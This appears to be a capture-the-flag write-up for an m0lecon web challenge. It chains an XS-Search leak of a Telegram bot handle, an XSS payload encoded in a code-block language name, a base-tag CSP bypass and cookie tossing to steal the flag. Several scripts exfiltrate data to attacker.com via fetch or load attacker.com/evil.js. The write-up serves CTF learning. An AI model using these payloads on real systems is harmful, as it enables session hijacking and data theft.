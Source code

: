 # Find the telegram bot handle

It's possible to leak the handle of the bot exploiting the `/location` route.

## Script to extract the hadle one character at a time:
```javascript
<script>

name = ''

wins = []

str = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for (var i = 0; i < str.length; i++) {
  c = str.charAt(i)
  console.log('https://telegrambotclient.m0lecon.it/locations?search='+name+c)
  r = window.open('https://telegrambotclient.m0lecon.it/locations?search='+name +c)
  wins.push(r)
}


setTimeout(() => {
  // Read the number of iframes loaded
    for (var i = 0; i < wins.length; i++) {
        if (wins[i].length>0){
            x = str.charAt(i)
            console.log(x)
            // leak the char
            fetch('https://attacker.com/leak?'+name+x)
        }
        wins[i].close()
    }
    }, 1000);

</script>
```

# XSS in telegram messages

The `/messages` route is vulnerable to xss on the programming language name used for the syntax highlighting feature.

## Payload to send as a telegram message to the bot to exploit the xss:
````
```python id=abc tabindex=1 onfocus=document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,101,118,105,108,46,106,115,39,62,60,47,115,99,114,105,112,116,62))  
ciao
```
````
This payload causes the execution of `https://attacker.com/evil.js` when the bot visits `/messages#abc`.



# Self XSS in the note service

When creating a note, the text value is not escaped.

By bypassing the CSP it's possible to obtain a self-xss on the note app domain.

## Payload:
```
<base href="https://attacker.com">
```

By changing the base address the browser will fetch the scripts in the page from the attacker domain.

These scripts are allowed by the CSP nonce.



# Subdomain takeover

From the xss on the telegram client it's possible to override the session cookie for the note subdomain.

In this way it's possible to exploit the self-xss in the note subdomain and fetch the flag in the same origin.

## Script for cookie override

```javascript
w = window.open('http://note.m0lecon.it:8080/note?id=1','flag')
newcookie = 'YOUR NOTE SESSION COOKIE'
document.cookie = 'session=' + newcookie + '; domain=.m0lecon.it; path=/note'
document.location = 'http://note.m0lecon.it:8080/note?id=2' //self-xss
```

## Script on note subdomain

```javascript
w = window.open('','flag')
flag = document.getElementsByTagName('p')[0].innerText
fetch('https://attacker.com/flag?'+flag)
```